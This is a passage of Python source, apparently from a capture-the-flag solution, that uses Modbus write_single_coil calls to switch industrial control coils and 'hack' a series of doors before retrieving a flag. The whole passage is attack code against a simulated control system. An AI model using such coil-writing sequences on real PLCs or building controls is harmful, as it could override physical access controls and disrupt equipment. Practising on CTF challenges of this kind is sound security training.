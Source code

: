 ```python

sleep(9)

print(f"\t[+]Door 4 hacked successfully!")

client.write_single_coil(sens10, False)
client.write_single_coil(sens14, False)
client.write_single_coil(sens13, False)
client.write_single_coil(sens12, False)

sleep(9)

#######

####### DOOR 1

print('[!] Door 1 hacking in progress...')

client.write_single_coil(sens6, False)
client.write_single_coil(sens7, True)
client.write_single_coil(sens5, True)
client.write_single_coil(sens0, True)


sleep(6)

print(f"\t[+]Door 1 hacked successfully!")

client.write_single_coil(sens6, True)
client.write_single_coil(sens7, False)
client.write_single_coil(sens5, False)
client.write_single_coil(sens0, False)

sleep(6)

########

####### DOOR 2

print('[!] Door 2 hacking in progress...')

client.write_single_coil(sens7, False)
client.write_single_coil(sens11, True)
client.write_single_coil(sens10, True)
client.write_single_coil(sens5, True)


sleep(9)

print(f"\t[+]Door 2 hacked successfully!")

client.write_single_coil(sens7, True)
client.write_single_coil(sens11, False)
client.write_single_coil(sens10, False)
client.write_single_coil(sens5, False)

sleep(11)

#######

print(f'\n\n\n [!!!] FLAG RETRIVAL \n\n')

##### this is just to look cooler than I am! :)
```